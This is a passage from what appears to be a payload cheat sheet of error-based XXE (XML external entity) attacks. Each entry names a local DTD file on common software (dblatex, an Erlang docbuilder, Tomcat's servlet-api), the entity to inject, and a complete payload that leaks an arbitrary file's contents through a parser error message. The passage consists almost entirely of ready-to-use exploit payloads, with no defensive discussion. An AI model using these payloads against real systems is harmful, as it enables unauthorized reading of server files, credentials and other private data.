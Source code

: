 **XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/dblatex/schema/dblatex-config.dtd">

    <!ENTITY % attlist.modname '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd`

**Injectable entity:** `%common`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd">

    <!ENTITY % block "xxx" >

    <!ENTITY % common '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/local/tomcat/lib/servlet-api.jar!/javax/servlet/resources/XMLSchema.dtd`

**Injectable entity:** `%xs-datatypes`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/tomcat/lib/servlet-api.jar!/javax/servlet/resources/XMLSchema.dtd">

    <!ENTITY % xs-datatypes '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```